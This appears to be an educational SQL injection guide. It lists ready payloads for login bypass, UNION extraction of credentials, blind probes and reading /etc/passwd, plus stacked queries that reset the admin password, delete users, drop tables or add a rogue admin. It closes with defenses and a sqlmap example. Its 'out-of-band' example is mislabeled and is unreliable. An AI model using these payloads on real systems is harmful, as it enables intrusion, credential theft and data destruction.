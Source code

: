 # SQL Injection Guide

## **1. What is SQL Injection?**
SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries by injecting malicious SQL code. This can lead to unauthorized access, data leaks, or even full database control.

---
## **2. Types of SQL Injection Attacks**

### **2.1. Classic SQL Injection (Error-Based SQLi)**
Attackers inject SQL code to extract database errors that reveal information about the structure of the database.

**Example:**
```sql
' OR 1=1 -- 
```
**Effect:** Logs in as the first user in the database.

---

### **2.2. Union-Based SQL Injection**
Attackers use the `UNION` statement to combine malicious queries with legitimate ones.

**Example:**
```sql
' UNION SELECT null, username, password FROM users -- 
```
**Effect:** Extracts usernames and passwords from the `users` table.

---

### **2.3. Boolean-Based Blind SQL Injection**
Attacks based on yes/no responses when an application does not return error messages.

**Example:**
```sql
' AND (SELECT database())='testdb' -- 
```
**Effect:** If `testdb` is the current database, login succeeds.

---

### **2.4. Time-Based Blind SQL Injection**
Uses time delays to infer query execution success.

**Example:**
```sql
' AND IF(1=1, SLEEP(5), 0) -- 
```
**Effect:** Delays execution by 5 seconds if the condition is true.

---

### **2.5. Out-of-Band SQL Injection**
Uses external systems (e.g., DNS, HTTP) to extract data.

**Example:**
```sql
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3 -- 
```
**Effect:** Reads server files (if allowed).

---
## **3. SQL Injection for Database Manipulation**

### **3.1. Changing Passwords**
```sql
' ; UPDATE users SET password='hacked' WHERE username='admin' -- 
```
**Effect:** Changes the admin password.

---

### **3.2. Deleting All Users**
```sql
' ; DELETE FROM users -- 
```
**Effect:** Deletes all users.

---

### **3.3. Dropping a Table**
```sql
' ; DROP TABLE users -- 
```
**Effect:** Deletes the `users` table.

---

### **3.4. Creating a New Admin User**
```sql
' ; INSERT INTO users (username, password, is_admin) VALUES ('hacker', 'password', 1) -- 
```
**Effect:** Creates a new admin account.

---
## **4. How to Protect Against SQL Injection**
**Use Prepared Statements (Parameterized Queries):**
```python
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
```

**Use ORM (e.g., SQLAlchemy)** to interact with databases instead of raw SQL.

**Sanitize User Input:** Enforce strict validation rules for input fields.

**Use Web Application Firewalls (WAFs):** Block malicious queries before they reach the database.

---

## **5. Tools for SQL Injection Testing**
🔹 **sqlmap** – Automates SQL Injection testing
```bash
sqlmap -u "http://example.com/login" --dbs
```
🔹 **Wireshark** – Captures SQL traffic for analysis
🔹 **Burp Suite** – Intercepts and manipulates SQL queries

---
## **Conclusion**
SQL Injection remains one of the most critical security vulnerabilities. Understanding and testing these techniques help developers secure their applications effectively.
